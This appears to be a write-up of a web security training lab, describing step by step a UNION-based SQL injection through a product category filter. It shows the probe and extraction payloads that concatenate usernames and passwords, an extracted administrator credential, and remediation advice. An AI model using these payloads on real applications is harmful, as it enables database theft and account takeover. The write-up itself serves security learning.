






# SQL Injection UNION Attack – Retrieving Multiple Values in a Single Column

## Overview

This lab demonstrates a SQL Injection vulnerability in the product category filter.  
The application returns query results directly in the response, making it possible to exploit the vulnerability using a UNION-based SQL injection.

However, the query output only displays data from a **single column**, requiring multiple database values to be combined into one column.

---

## Enumeration

Testing showed that the `category` parameter is included in a backend SQL query.

Example request:

```
/filter?category=Gifts
```
The number of columns was determined using the ORDER BY technique.

Example:

```sql
' ORDER BY 2 --
```

This confirmed that the query returns **two columns**.

The number of columns returned by the query was determined using UNION testing.

Example payload:

```sql
' UNION SELECT NULL,NULL --
```

After identifying the correct column count, further testing revealed which column could display textual data.

---

## Vulnerability

The application fails to properly sanitize user input in the `category` parameter.

Because of this, attackers can inject SQL statements into the backend query.

Using a UNION attack, it is possible to retrieve data from other database tables.

---

## Exploitation

The database contains a table called `users` with the following columns:

- username
- password

Since the application displays only one text column, the values must be combined using string concatenation.

### Payload Used

```sql
' UNION SELECT NULL, username || ':' || password FROM users --
```

### Extracted Credentials

The UNION attack returned credentials from the `users` table.

Example result:

```
administrator:vvueyebtps48tys3ynv6
```

These credentials were then used to authenticate as the administrator user.


### Administrator Login

Using the extracted credentials, the attacker can log in as the administrator and gain full access to the application.


### Explanation

The payload concatenates the username and password using `||`, placing both values in a single column separated by a colon.

This allows both fields to appear in the page output.

---

## Impact

A successful SQL injection attack allows attackers to:

- Extract sensitive information from the database
- Retrieve usernames and passwords
- Gain unauthorized access to user accounts
- Compromise the application's backend database

---

## Remediation

To prevent SQL injection vulnerabilities, the application should:

- Use **parameterized queries (prepared statements)**
- Implement **input validation**
- Avoid constructing SQL queries with raw user input
- Use **ORM frameworks** that handle query construction safely

---

## Screenshots

### Lab Overview


### Column Count Discovery


### Concatenation Payload


### Extracted Credentials


### Administrator Login


### Lab compromised 
